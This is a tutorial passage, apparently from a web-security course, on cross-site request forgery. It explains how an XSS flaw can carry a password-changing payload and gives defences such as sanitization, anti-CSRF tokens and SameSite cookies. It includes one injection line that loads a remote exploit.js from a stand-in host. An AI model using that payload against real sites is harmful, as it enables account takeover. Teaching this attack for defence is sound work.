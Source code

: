 # Cross-Site Request Forgery (CSRF)

The third type of front end vulnerability that is caused by unfiltered user input is [Cross-Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf). `CSRF` attacks may utilize `XSS` vulnerabilities to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.

A common `CSRF` attack to gain higher privileged access to a web application is to craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the `JavaScript` `CSRF` payload), the `JavaScript` code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

`CSRF` can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admins within a given web application). Following this example, instead of using `JavaScript` code that would return the session cookie, we would load a remote `.js` (`JavaScript`) file, as follows:

```html
"><script src=//www.example.com/exploit.js></script>
```

The `exploit.js` file would contain the malicious `JavaScript` code that changes the user's password. Developing the `exploit.js` in this case requires knowledge of this web application's password changing procedure and `APIs`. The attacker would need to create `JavaScript` code that would replicate the desired functionality and automatically carry it out (i.e., `JavaScript` code that changes our password for this specific web application).

***

## Prevention

Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without communicating with the back end. Two main controls must be applied when accepting user input:

<table><thead><tr><th width="134.00006103515625">Type</th><th>Description</th></tr></thead><tbody><tr><td><code>Sanitization</code></td><td>Removing special characters and non-standard characters from user input before displaying it or storing it.</td></tr><tr><td><code>Validation</code></td><td>Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)</td></tr></tbody></table>

Furthermore, it is also important to sanitize displayed output and clear any special/non-standard characters. In case an attacker manages to bypass front end and back end sanitization and validation filters, it will still not cause any harm on the front end.

Once we sanitize and/or validate user input and displayed output, we should be able to prevent attacks like `HTML Injection` and `XSS`. Another solution would be to implement a [web application firewall (WAF)](https://en.wikipedia.org/wiki/Web_application_firewall), which can help prevent injection attempts automatically. However, it should be noted that WAF solutions can potentially be bypassed, so developers should follow coding best practices and not merely rely on an appliance to detect/block attacks.

To defend against `XSS`, modern browsers have built-in protections that block the automatic execution of Javascript code. In the case of `CSRF`, most modern web applications include anti-CSRF mechanisms, such as requiring a unique token for each session or request. Additionally, HTTP-level defenses like the `SameSite` cookie attribute (`SameSite=Strict` or `Lax`) can restrict browsers from including authentication cookies in cross-origin requests. Functional protections, like requiring the user to input their password before changing it, can also help mitigate the impact of CSRF. Despite these security measures, they can still be bypassed in certain scenarios. As a result, vulnerabilities like XSS and CSRF continue to pose significant risks to web application users. These defenses should be treated as additional layers of protection, not primary safeguards—developers must ensure that their applications are secure by design and not inherently vulnerable to such attacks.

This [Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html) from OWASP discusses the attack and prevention measures in greater detail.
